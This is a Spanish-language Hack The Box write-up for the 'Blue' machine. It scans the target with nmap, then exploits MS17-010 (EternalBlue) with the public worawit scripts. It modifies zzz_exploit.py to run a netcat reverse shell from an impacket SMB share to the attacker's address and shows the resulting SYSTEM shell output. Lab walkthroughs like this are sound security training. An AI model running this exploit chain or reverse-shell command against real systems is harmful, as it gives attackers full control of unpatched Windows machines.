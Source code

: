 ```yaml
---
title: HTB-BLUE
published: true
---
```


<centre><img src="/assets/images/blue/blueicon.png"></centre>


[Maquina](https://app.hackthebox.com/machines/51) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.40 
```

```txt
Nmap scan report for 10.10.10.40
Host is up (0.042s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Al ver que el puerto 445 se encuentra abierto y que el SO es un Windows 7 SP1 podemos probar a usar el EternalBlue ya que es vulnerable.

[MS17-010](https://github.com/worawit/MS17-010)



## Explotación

```bash
git clone https://github.com/worawit/MS17-010
```

Primero, vamos a comprobar que el Windows sea vulnerable a este exploit y para ello vamos a usar el **checker.py** dandole permisos de administrador y cambiando un trozo de linea del código.

Donde poner username, pondremos un carácter porque si no, no funciona el script.

```bash
Script for
- check target if MS17-010 is patched or not.
- find accessible named pipe
'''

USERNAME = 'a'
PASSWORD = ''

NDR64Syntax = ('71710533-BEBA-4937-8319-B5DBEF9CCC36', '1.0')

```

Ejecutamos el Script poniendo la direccion ip de la máquina Blue.

```bash
python2 checker.py 10.10.10.40
```

imagenchecker

Al comprobar que funciona correctamente, procederemos a cambiar la misma parte del contenido en el fichero **zzz_exploit.py** y también dandole permisos de ejecución.

Buscamos dentro del archivo por **cmd** y comentamos las mismas lineas que en lo siguiente y descomentamos la única que se va a ejecutar y cambiamos a lo siguiente.

Liena a insertar con el cual ejecutaremos el netcat por el servidor smb de Kali y nos haremos una reverseShell a nuestro equipo teniendo el puerto 443 a la escucha con el comando **nc -lvp 443
**

Linea a introducir:
```bash
\\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443
```

Parte del archivo a cambiar:
```bash
def smb_pwn(conn, arch):
        #smbConn = conn.get_smbconnection()
         
        #print('creating file c:\\pwned.txt on the target')
        #tid2 = smbConn.connectTree('C$')
        #fid2 = smbConn.createFile(tid2, '/pwned.txt')
        #smbConn.closeFile(tid2, fid2)
        #smbConn.disconnectTree(tid2)
         
        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c \\10.10.14.9\share\nc.exe -e cmd 10.10.14.9 443')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."

```

Servidor SMB con **impacket**
```bash
impacket-smbserver share $(pwd) -smb2support

```


Procederemos a la ejecucion del script.

```bash
python2 zzz_exploit.py 10.10.10.40
```

Y comprobaremos que somos **nt authority*

```txt
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.40] 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::ec27:2916:8a1f:869e
   Temporary IPv6 Address. . . . . . : dead:beef::a4ad:6053:ef18:5158
   Link-local IPv6 Address . . . . . : fe80::ec27:2916:8a1f:869e%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.40
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%11
                                       10.10.10.2

Tunnel adapter isatap.{CBC67B8A-5031-412C-AEA7-B3186D30360E}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32>
```
